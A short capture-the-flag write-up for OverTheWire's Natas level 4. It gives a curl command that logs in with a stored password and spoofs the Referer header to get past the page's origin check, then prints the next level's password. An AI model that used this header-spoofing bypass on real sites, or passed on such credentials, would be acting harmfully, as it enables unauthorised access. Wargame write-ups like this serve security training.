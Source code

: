 # Natas Level 3 → Level 4
Username: natas4\
URL:      http://natas4.natas.labs.overthewire.org

## Solution
curl --user natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm http://natas4.natas.labs.overthewire.org --referer http://natas5.natas.labs.overthewire.org/

## Password
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD